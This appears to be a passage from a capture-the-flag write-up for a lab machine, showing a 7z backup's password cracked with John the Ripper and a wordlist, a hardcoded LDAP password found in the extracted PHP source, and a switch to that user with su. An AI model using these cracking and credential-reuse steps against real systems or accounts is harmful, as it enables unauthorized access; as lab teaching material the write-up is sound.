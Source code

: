 
I'll use `7z2john` to extract the hash then crack it with `john`:
```
root@ragingunicorn:~/JohnTheRipper/run# ./7z2john.pl /root/tmp/backup.7z 

backup.7z:$7z$2$19$0$$8$11e96[...]

# ~/JohnTheRipper/run/john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-70.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 128/128 AVX 4x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 12 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
delete           (?)
1g 0:00:00:40 DONE (2018-12-10 23:59) 0.02448g/s 50.53p/s 50.53c/s 50.53C/s poison..nokia
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Password is : `delete`

```
# 7z x -obackup backup.7z 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
[...]
Size:       10270
Compressed: 3411
root@ragingunicorn:~/tmp# ls -l backup
total 24
-rw-r----- 1 root root 4218 Jun 13 14:48 index.php
-rw-r----- 1 root root 1764 Jun 13 14:47 info.php
-rw-r----- 1 root root  360 Jun 10  2018 reset.php
-rw-r----- 1 root root 2400 Jun 14 15:06 status.php
-rw-r----- 1 root root 1528 Jun 13 14:47 user.php
```

We have a backup of the web application source code and `status.php` contains credentials:

```php
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
```

We can then `su` to `ldapuser1` with that password:

```
[10.10.14.23@lightweight ~]$ su -l ldapuser1
Password: 
Last login: Tue Dec 11 02:01:07 GMT 2018 on pts/1
[ldapuser1@lightweight ~]$ ls 
capture.pcap  ldapTLS.php  openssl  tcpdump
```
